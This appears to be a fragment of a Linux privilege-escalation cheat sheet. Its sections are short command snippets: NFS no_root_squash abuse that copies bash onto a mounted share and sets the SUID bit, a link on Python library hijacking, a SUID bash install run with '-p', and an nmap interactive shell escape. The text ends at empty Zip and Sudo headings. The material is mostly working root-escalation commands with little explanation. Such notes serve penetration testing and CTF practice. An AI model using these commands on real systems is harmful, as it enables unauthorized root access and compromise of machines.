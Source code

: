 ```
# Check for "no_root_squash"
cat /etc/exports
```

```
# Mount a share
mkdir /tmp/nfs_share

sudo su

mount -o rw,vers=2 <IP Addr>:/<path> /tmp/nfs_share/

cp /bin/bash ./cash

chmod u+s cash
```

## Python Module Injection

[Python Library Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

```
ps aux | grep root

cat /etc/crontab

ls /tmp

cd /opt && ls
```

## Bash

```
# SUID Binary
sudo install -m =xs $(which bash) .

./bash -p
```

## Nmap

```
sudo nmap --interactive
nmap> !sh
```

## Zip

### Sudo
